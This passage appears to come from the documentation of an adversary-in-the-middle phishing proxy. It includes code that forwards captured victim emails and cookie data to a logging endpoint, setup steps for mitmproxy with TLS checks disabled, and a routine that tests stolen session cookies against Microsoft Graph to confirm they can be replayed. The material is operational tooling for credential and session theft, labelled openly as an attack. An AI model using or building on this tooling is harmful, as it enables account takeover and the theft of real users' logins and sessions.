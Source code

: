 ```python
# Export to external SIEM
def export_to_siem(captured_data):
    import requests
    
    siem_data = {
        'event_type': 'aitm_attack',
        'timestamp': datetime.datetime.utcnow().isoformat(),
        'victim_email': captured_data.get('credentials', {}).get('email'),
        'cookies_count': len(captured_data.get('cookies', [])),
        'session_valid': captured_data.get('session_info', {}).get('auth_success', False)
    }
    
    requests.post('https://siem-endpoint/events', json=siem_data)
```

## Troubleshooting

### Common Issues

#### 1. Proxy Won't Start
```bash
# Check port availability
netstat -tulpn | grep :8080

# Check permissions
sudo setcap CAP_NET_BIND_SERVICE=+eip $(which python3)

# Check firewall
sudo ufw allow 8080
```

#### 2. Certificate Errors
```bash
# Generate self-signed certificate for testing
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

# Use with mitmproxy
mitmdump --set confdir=~/.mitmproxy --ssl-insecure
```

#### 3. Cookie Validation Fails
```python
# Debug cookie validation
validation_result = proxy.validate_captured_cookies(
    test_url="https://graph.microsoft.com/v1.0/me/drive"
)
print(f"Validation result: {validation_result}")

# Check cookie format
for cookie_data in captured_data['cookies']:
    print(f"Cookie: {cookie_data['parsed']}")
```
